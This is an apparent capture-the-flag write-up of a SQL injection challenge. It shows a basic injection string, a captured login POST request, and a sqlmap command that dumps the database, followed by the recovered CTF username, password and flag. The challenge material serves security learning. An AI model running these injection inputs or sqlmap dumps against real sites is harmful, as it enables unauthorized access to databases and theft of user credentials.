


# The Sequel

## By Om Honrao


<p align="center">
  
</p>

## Hint:-
```
As the name suggests, this is a classic SQL injection vulnerability. You just need the password for the user stored in db. Ever heard about the EXTRACTVALUE function in SQL? Maybe use it to extract the password from our DB.
```
# Walkthrough
Well this chall also has a login page but has sqli. I tried some common sql injection like
```
' OR 1=1
```
etc, vut was giving syntax error. Then I took permission from admin that can i use sqlmap. He said yes. So now this chall was easy to complete.
I made a request.txt file containing following thing:-

```
POST /web/1/login.php HTTP/1.1
Host: web.ctf.devclub.in
Connection: close
Content-Length: 27
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://web.ctf.devclub.in
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://web.ctf.devclub.in/web/1/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=ssnmqep46b922cbg99kvh3grfn

username=test&password=test
```

I got this from burp.

Now just use sqlmapin following way:-
```bash
$ sqlmap -r request.txt -p username --dump
```
This will do its work now it will ask few questions i just pressed yes(you can press no at certain step if you want to).

At last it will give you a table:-
<p align="center">
  
</p>

This tool worked just fine and gave the credentials of the user we need:-

```
Usename:- as1605
Password:- wildspirit
```
Now if we login with that account
At last it will give you a table:-
<p align="center">
  
</p>

We get the flag
```
CTF{7ql_1s_n0t_3asy_8_all}
```
Well i guess my write up explained everything it needed.
